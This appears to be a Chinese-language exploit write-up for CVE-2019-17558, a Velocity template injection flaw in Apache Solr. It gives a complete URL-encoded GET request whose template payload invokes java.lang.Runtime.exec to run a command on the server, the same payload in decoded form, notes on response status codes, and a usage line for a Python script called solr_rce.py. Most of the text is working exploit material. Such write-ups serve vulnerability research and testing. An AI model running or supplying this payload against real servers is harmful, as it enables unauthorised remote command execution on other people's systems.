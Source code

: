     {
      "responseHeader":{
        "status":0,
        "QTime":554},
      "WARNING":"This response format is experimental.  It is likely to change in the future."}

**开启后，直接Get 访问（带入表达式）进行 远程代码命令执行**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

**ssit**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=
    #set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

![](./resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId31.jpg)

注意到 状态码是`400`，`而不是200`，出现`500`的情况可能是 异常报错。

### poc

**usage**

> python solr\_rce.py http://www.0-sec.org:8983 command

![](./resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId33.jpg)
